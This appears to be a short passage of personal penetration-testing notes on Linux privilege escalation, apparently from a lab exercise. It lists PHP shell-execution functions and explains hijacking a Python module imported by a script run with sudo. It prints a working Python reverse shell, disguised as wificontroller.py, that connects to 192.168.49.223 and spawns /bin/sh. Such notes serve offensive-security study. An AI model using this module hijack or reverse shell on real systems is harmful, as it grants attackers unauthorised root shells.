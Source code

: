 ```jsx
system(); exec(); passthru(); shell_exec();
```

## Python Import Module Sudo

If you have the ability to execute a python script as sudo and it imports a module, try creating your own module in the same working directory as the script. If you have write access to do this, you can get a reverse shell. How to make the module can be found in this article:

[How does the import module work in Python 🐍](https://pythonprogramming.org/how-does-the-import-module-work-in-python/)

For instance, I had sudo to execute this script

![Untitled](Linux%20Tips%200ac4056c2acc4d4fab0a79667bee9186/Untitled%207.png)

It imports wificontroller.py. I created my own version that calls a reverse shell like this:

```bash
└─# cat wificontroller.py
import socket,subprocess,os

def reset(x, y):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.49.223",22))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
```

and placed it in `/home/walter`. It was called when I ran sudo.

[PE Notes](Linux%20Tips%200ac4056c2acc4d4fab0a79667bee9186/PE%20Notes%206193480baeac46fc90b7a4b7d253366a.md)
